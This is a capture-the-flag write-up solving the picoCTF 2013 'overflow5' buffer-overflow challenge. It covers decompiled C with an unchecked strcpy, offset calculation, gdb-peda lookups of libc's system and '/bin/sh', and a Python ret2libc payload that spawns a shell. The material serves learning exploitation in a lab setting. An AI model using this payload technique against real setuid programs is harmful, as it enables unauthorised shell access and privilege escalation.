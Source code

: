 ### S0lv3d by H4yicl3

First i download source here :https://2013.picoctf.com/problems/overflow5-0353c1a83cb2fa0d

then i use IDA to analysis the code
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax@2
  __uid_t v4; // eax@3

  if ( argc == 2 )
  {
    v4 = geteuid();
    setresuid(v4, v4, v4);
    vuln((char *)argv[1]);				//<--------- the vuln function()
    result = 0;
  }
  else
  {
    puts("Usage: buffer_overflow_shellcode [str]");
    result = 1;
  }
  return result;
}
```

the vuln function here
```c
char *__cdecl vuln(char *a1)
{
  char v2; // [sp+10h] [bp-40Ch]@1     	//<------- overflow dest to modify return address

  return strcpy(&v2, a1);
}
```

find the offset between v2 and return
```
-0000040C var_40C         db ?
+00000000  r              db 4 dup(?)
```

offset = 0x40C(dest) + 0x0(return) =0x40C =1036
but the program had turned on NX flag()
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ 
```

so the way to get shell !! we need to excute system("/bin/sh")
and we can find it in libc
```
gdb-peda$ b *main
gdb-peda$ r
gdb-peda$ p &system
$1 = (<text variable, no debug info> *) 0xf7e4a310 <system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f6a84c ("/bin/sh")
```

the address of system is 0xf7e4a310
the address of /bin/sh is 0xf7f6a84c
we need excute the system("/bin/sh")
the python script i make look like
```python
padding ="A"*1036
address_system ="\x10\xa3\xe4\xf7"
return_after_system="AAAA"
address_binsh ="\x4c\xa8\xf6\xf7"
print padding + address_system + return_after_system +address_binsh
```

try run it
```
./overflow5 $(python overflow5.py)
$ whoami
hayicle
$ 
```

well done!!